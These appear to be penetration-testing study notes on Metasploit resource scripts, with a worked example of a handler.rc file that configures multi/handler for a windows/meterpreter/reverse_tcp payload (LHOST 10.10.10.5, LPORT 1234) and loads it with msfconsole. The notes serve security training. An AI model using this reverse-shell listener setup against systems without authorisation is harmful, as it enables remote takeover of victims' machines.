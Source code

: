
#### Metasploit Resource scripts
- Metasploit resources scripts are a great feature of MSF that allow you to automate repetitive tasks and commands.
- The operate similarly to batch scripts,whereby you can specifiy a set of Msfconsole commands that you want to execute sequentially.
- You can load the script with msfconsole and automate the execution of the commands you specified in the resource script.
- We can use resource scripts to automate various tasks like setting up multi handlers as well as loading and executing payloads.



- ls -al /usr/share/metasploit-framework/scripts/resource/ [built in resource scripts found here]

#### creating multi/handler resource scripts
- nano handler.rc
- use multi/handler
- set PAYLOAD windows/meterpreter/reverse_tcp
- set LHOST 10.10.10.5
- set LPORT 1234
- run
- save the file 
- msfconsole -r handler.rc [this will load the created script]


#### Note 
- we can create resource for every module as we need.

